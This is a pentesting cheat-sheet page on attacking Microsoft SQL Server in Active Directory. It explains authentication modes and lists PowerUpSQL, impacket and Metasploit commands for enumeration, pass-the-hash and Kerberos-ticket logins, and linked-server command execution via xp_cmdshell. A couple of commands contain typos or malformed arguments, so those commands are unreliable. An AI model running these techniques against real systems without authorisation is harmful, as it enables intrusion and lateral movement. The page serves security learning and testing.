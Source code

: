 ```yaml
---
label: MSSQL Abuse
disabled: true
---
```


# MSSQL Abuse

{/*TODO: How to connect to MSSQL using domain account from Linux and Windows? impacket-mssqlclient*/}

## MSSQL Authentication

There are two options of authentication settings possible to set in SQL Server:

1. Windows Authentication
2. Windows Authentication + SQL Server Authentication (mixed)

**SQL Server Authentication** involves setting up a classic login and password for the user's DB. During setup the default `sa` account is created and password must be set. The explicitly provided user’s credentials are validated through the information stored in the master database. It's way more limited than Windows Authentication and it's not recommended approach.

In **Windows authentication**, the user should first authenticate himself within AD domain. SQL Server authenticates users through the Windows security token. It doesn't require to provide credentials explicitly. Windows Authentication is the **default authentication method** when an SQL Server is installed.

## Enumeration

Windows (PowerUpSQL module):

```powershell
# Enumerate SQL servers in the current domain
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose

# Enumerate local SQL instances
Get-SQLInstanceLocal | Get-SQLServerInfo
```

Linux:

```bash
# Ask for SQL instances running on the target host
impacket-mssqlinstance $target_host
```

## Connection

After connecting to MSSQL Server, we are able to execute SQL Queries. This often involves the ability to execute code on the system. [Full list of further exploitation here](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server).

> **NOTE**: It might be worth to check different domain credentials to verify which account has access to MSSQL Server.

Windows (PowerUpSQL module):

```powershell
# Execute SQL query using SQL Server Auth
Get-SQLQuery -Username $user -Password $password -Instance $SQL_Server_FQDN -Query "$mssql_query"

# Execute SQL query using Windows Auth
Get-SQLQuery -Instance $SQL_Server_FQDN -Query "$mssql_query"
```

Linux:

```bash
# Using SQL Server Authentication
impacket-msssqlclient $user:$password@$host

# Using Windows Auth with password
impacket-mssqlclient -windows-auth $domain/$user:$password@$host

# Using Windows Auth with NT hash
impacket-mssqlclient -windows-auth $domain/$user@$host -hashes :$nt_hash

# Using Kerberos TGT
export KRB5CCNAME=$tgt_ccache_file
impacket-mssqlclient $hostname -k -no-pass -dc-ip $dc_ip
```

## Linked servers

Any user regardless of their privilege level is allowed to use the preconfigured database links

Windows (PowerUpSQL module):

```powershell
# Enumerate database links
Get-SQLServerLinkCrawl -Instance $SQL_Server_FQDN -Verbose

# RCE with Windows Auth (current security contex)
Get-SQLServerLinkCrawl -Instance $SQL_Server_FQDN -Query "exec master..xp_cmdshell 'whoami'"

# RCE with SQL Server Auth
Get-SQLServerLinkCrawl -Instance $SQL_Server_FQDN -Username $username $password $password -Query "exec master..xp_cmdshell 'whoami'"


Get-SQLQuery -Instance "sql.domain.io,1433" -Query "select * from openquery(""sql2.domain.io"", 'select * from information_schema.tables')"
```

Linux:

```bash
msfconsole
> use exploit/windows/mssql/mssql_linkcrawler
> set rhost $SQL_Server_IP
> set username $username
> set password $password
```

## References

- [Netspi, *SQL Server – Link… Link… Link… and Shell: How to Hack Database Links in SQL Server!*](https://www.netspi.com/blog/technical/network-penetration-testing/how-to-hack-database-links-in-sql-server/)
- [Quest, *SQL Server authentication vs. Windows authentication: Which to use and when*](https://blog.quest.com/sql-server-authentication-vs-windows-authentication-which-to-use-and-when/)
